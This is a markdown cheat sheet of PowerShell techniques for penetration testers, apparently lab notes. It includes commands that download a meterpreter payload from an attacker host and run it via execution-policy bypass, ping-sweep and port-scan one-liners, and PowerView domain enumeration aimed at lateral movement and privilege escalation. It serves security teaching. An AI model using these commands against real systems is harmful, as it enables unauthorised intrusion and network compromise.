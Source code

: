 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```

What Windows Security Update was installed on 5/15/2019?
Get-HotFix | Format-Table | findstr 5/15/2019

## Network Reconnaissance 

Following command can be used for ping a given IP range and grep for lines that include the "TTL" string. 

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

This command check For all 1024 ports to see if is open or not.

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "open port on - $_"} 2>$null
```

## Using PowerView


Gather information about domain with the help of [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).
To import `Import-Module .\powerview.ps1`.

`Get-NetDomainController` command will collect information on the domain controller. Knowing the IP address of the domain controller will be useful to
conduct man-in-the-middle attacks and to focus our efforts on high-value targets. 

`Get-NetUser` will list of domain users. 
```powershell 
Get-NetUser | out-gridview

# Values for a specific property can be listed. For example, if we wanted to list users' last logon dates and times we could use the "Get-NetUser | select -ExpandProperty lastlogon" command. 
Get-NetUser | select -ExpandProperty lastlogon
```

### Get-NetComputer

This command is useful to enumerate systems connected to the domain. This command can also be used with the “-ping” parameter to enumerate the systems that are currently online.
```powershell
Get-NetComputer -ping
```
In the instacetype shows how many system currently online.

### Get-NetGroup

Some accounts can be members of important groups, such as domain admins. Knowing which accounts have useful privileges or are a member of groups of interest will be useful for lateral movement and privilege escalation. The `Get-NetGroup` command will help us enumerate existing groups.
```powershell
Get-NetGroup "Domain Admins"
```

### Finding shares


`Find-DomainShare` will list available shares. Please note we have added the `-CheckShareAccess` option to list only readable shares.
```powershell
Find-DomainShare -CheckShareAccess 
```


### Enumerate Group Policy

Group Policy is used to configure computers connected to the domain. The `Get-NetGPO` command will gather information on enforced policies. 


### User Enumeration

Knowing which systems the current user can access with local administrator privileges can facilitate lateral movement. The `Find-LocalAdminAccess` command will list systems in the domain you may access as a local administrator.

The good source of powerview can be found [here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

 One of the accounts has a special description; what is it?
 ```powershell
 Get-NetUser -Properties description
 ```

 How many accounts are disabled?
 ```powershell
 Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE | measure
 ```

 How many users are in the “domain admins” group?
 ```powershell
 Get-NetGroupMember “Domain Admins” | measure
 ````
